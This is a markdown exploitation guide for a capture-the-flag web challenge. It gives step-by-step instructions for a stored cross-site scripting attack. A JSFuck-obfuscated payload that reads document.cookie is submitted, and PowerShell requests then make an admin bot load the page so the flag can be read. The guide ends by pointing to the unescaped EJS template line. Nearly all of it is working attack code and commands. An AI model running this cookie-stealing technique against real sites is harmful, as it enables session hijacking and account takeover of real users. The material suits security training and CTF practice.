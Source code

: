 ## Quick Exploitation Steps

### 1. Generate JSFuck Payload
```
Visit: https://jsfuck.com/
Input: location='/searches?c='+document.cookie
Click: Encode
Copy: The entire output
Save: To jsfuck_payload.txt
```

### 2. Run the Exploit Script
```powershell
cd "c:\Users\haryp\Downloads\web diva"
python exploit_runner.py
```

### 3. Manual Exploitation (Alternative)
```powershell
# Read the JSFuck payload
$payload = Get-Content jsfuck_payload.txt -Raw

# Submit to /search
$body = @{
    q = 'test'
    _ = $payload
}
$response = Invoke-WebRequest -Uri 'http://r1.arena.airoverflow.com:65340/search' -Method POST -Body $body -MaximumRedirection 0 -ErrorAction SilentlyContinue

# Extract UUID from redirect
$uuid = ($response.Headers.Location -split '/')[-1]
Write-Host "UUID: $uuid"

# Report to admin
$reportBody = @{
    url = "http://r1.arena.airoverflow.com:65340/search/$uuid"
}
Invoke-WebRequest -Uri 'http://r1.arena.airoverflow.com:65340/report' -Method POST -Body $reportBody

# Check /searches for flag
Start-Process "http://r1.arena.airoverflow.com:65340/searches"
```

## Why This Works

### The Vulnerability
```javascript
// In views/search.ejs:
<script id=<%= query %>>
    <%- _ %>    // ← Unescaped rendering = XSS!
</script>
```
